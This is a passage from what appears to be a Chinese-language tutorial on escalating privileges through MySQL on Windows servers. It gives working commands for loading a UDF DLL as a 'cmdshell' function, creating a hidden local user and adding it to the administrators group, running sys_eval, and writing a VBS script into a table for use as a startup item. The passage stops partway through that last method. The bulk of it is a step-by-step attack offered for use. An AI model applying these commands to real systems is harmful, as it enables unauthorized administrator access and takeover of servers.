 手工导入 udf 文件：

```
#安装
create function cmdshell returns string soname 'udf.dll'
#写入命令
select cmdshell('net user test 123.com /add');  
select cmdshell('net localgroup administrators test /add');  
drop function cmdshell; # 删除函数
```

③创建 shell 函数，创建完成后即可执行命令，也可以手动创建函数。

```
select sys\_eval('whoami')
```

当然使用 udf 马自带的功能更省事一点：

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0Tjbfq37D6JYhiaemDm5PcmKhibT8JG8KVFfJ64b0PazZCcxDthVj4iaZJcw/640?wx_fmt=png)  

  
④提权成功，可以执行命令

```
#启动项目录：
win 08：C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\Startup
win 03：C:\\Documents and Settings\\Administrator\\「开始」菜单\\程序\\启动
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0TjOOxPbP35excBwJP8VMr9wNU0XNib1TVHxB85ZxTLCFPicafvTf5yraaw/640?wx_fmt=png)  

  
如果目标 mysql 版本小于 5.1。在这里导出即可

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbiaY7hWWXFuN62eMa5tf0TjslSh02DFEBCXKiauqasurRrQZ6OdnZqfD2ibibf3ftUMmXcw1q8VxR9Ng/640?wx_fmt=png)  

**四、启动项提权**  

```
create database test;
```

4.1 创建 test 数据库

```
create table a (cmd text);
#创建了一个表名为a的表，表中只存放一个字段，字段名为cmd，text文本
```

4.2 在 TEST 数据库下创建一个新的表；

```
insert into a values ("set wshshell=createobject (""wscript.shell"")");
insert into a values ("a=wshshell.run (""cmd.exe /c net user test123 123456 /add"",0)");
insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators test123 /add"",0)");
# 调用cmd创建管理员,注意双引号和括号以及后面的"0"一定要输入,用这三条命令来建立一个VBS的脚本程序
select \* from a;
```

